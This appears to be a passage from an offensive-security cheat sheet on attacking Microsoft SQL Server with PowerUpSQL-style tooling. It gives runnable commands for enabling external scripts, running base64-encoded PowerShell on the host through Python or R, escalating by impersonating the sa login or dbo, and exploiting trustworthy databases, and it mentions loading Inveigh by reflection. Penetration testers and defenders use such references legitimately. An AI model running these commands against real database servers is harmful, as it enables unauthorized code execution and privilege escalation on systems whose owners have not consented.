 ## External Scripts

:warning: You need to enable **external scripts**.

```sql
sp_configure 'external scripts enabled', 1;
RECONFIGURE;
```

## Python:

```ps1
Invoke-SQLOSCmdPython -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose
```

## R

```ps1
Invoke-SQLOSCmdR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose
```

## Audit Checks


### Find and exploit impersonation opportunities 

* Impersonate as: `EXECUTE AS LOGIN = 'sa'`
* Impersonate `dbo` with DB_OWNER
	```sql
	SQL> select is_member('db_owner');
	SQL> execute as user = 'dbo'
	SQL> SELECT is_srvrolemember('sysadmin')
	```

```ps1
Invoke-SQLAuditPrivImpersonateLogin -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose

# impersonate sa account
powerpick Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER(''sysadmin'')" -Verbose -Debug
```

## Find databases that have been configured as trustworthy

```ps1
Invoke-SQLAuditPrivTrustworthy -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose 
```

> The following audit checks run web requests to load Inveigh via reflection. Be mindful of the environment and ability to connect outbound.
